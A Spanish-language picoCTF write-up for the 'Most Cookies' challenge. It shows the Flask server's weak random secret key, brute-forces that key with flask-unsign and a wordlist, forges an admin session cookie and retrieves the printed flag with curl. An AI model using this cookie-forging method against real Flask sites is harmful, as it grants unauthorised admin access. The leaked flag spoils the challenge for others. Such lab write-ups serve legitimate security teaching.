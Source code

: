 ## Reto: Most cookies
### Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)
### Solución
Vemos que nos dirige a una liga y ademas nos da el siguiente `script`
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session

import random

app = Flask(__name__)

flag_value = open("./flag").read().rstrip()

title = "Most Cookies"

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

app.secret_key = random.choice(cookie_names)

  

@app.route("/")

def main():

    if session.get("very_auth"):

        check = session["very_auth"]

        if check == "blank":

            return render_template("index.html", title=title)

        else:

            return make_response(redirect("/display"))

    else:

        resp = make_response(redirect("/"))

        session["very_auth"] = "blank"

        return resp

  

@app.route("/search", methods=["GET", "POST"])

def search():

    if "name" in request.form and request.form["name"] in cookie_names:

        resp = make_response(redirect("/display"))

        session["very_auth"] = request.form["name"]

        return resp

    else:

        message = "That doesn't appear to be a valid cookie."

        category = "danger"

        flash(message, category)

        resp = make_response(redirect("/"))

        session["very_auth"] = "blank"

        return resp

  

@app.route("/reset")

def reset():

    resp = make_response(redirect("/"))

    session.pop("very_auth", None)

    return resp

  

@app.route("/display", methods=["GET"])

def flag():

    if session.get("very_auth"):

        check = session["very_auth"]

        if check == "admin":

            resp = make_response(render_template("flag.html", value=flag_value, title=title))

            return resp

        flash("That is a cookie! Not very special though...", "success")

        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])

    else:

        resp = make_response(redirect("/"))

        session["very_auth"] = "blank"

        return resp

  

if __name__ == "__main__":

    app.run()
```
Al entrar en la pagina que se nos es proporcionada, podemos notar que tenemos que ingresar un nombre de galleta y nos abrira un apartado donde nos dice el nombre de esa galleta.

Al entrar ahi podemos notar que se nos ha generado una `cookie`, por lo que procedemos a copiarla.

Después de instalar una serie de herramientas en la consola, ingresamos a un modo virtual para evitar dañar algo en el sistema operativo, por lo que la consola cambia el prompt.

Bien, ahora creamos un documento llamado `cookies.txt` donde guardaremos el nombre de cada una de esas galletas

```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```

Con el siguiente comando y la `cookie` generada, procedemos a encontrar la correcta
```shell
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-9rTA.gv0SG0WAQNvMMnoM6xP2WS6oilM" --wordlist cookies.txt
```
Ahora nos regresara el nombre de la galleta correcta:
```shell
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```

Como podemos ver la correcta es `gingersnap`
Ahora procedemos a obtener la nueva cookie,  la siguiente manera:
```shell
flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret "gingersnap"
```
Y nos regresa la nueva cookie:
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9rfg.AWd0fAPro9cLSf4Sl9etFLwUL18
```
Con el siguiente comando encontramos la bandera:
```shell
curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9rfg.AWd0fAPro9cLSf4Sl9etFLwUL18" | grep pico
```
El comando hace una petición como si fueras "admin" y busca si en la respuesta hay una flag
Y nos regresa la bandera
```flag
picoCTF{pwn_4ll_th3_cook1E5_5f016958}
```
### Notas adicionales
### Referencias

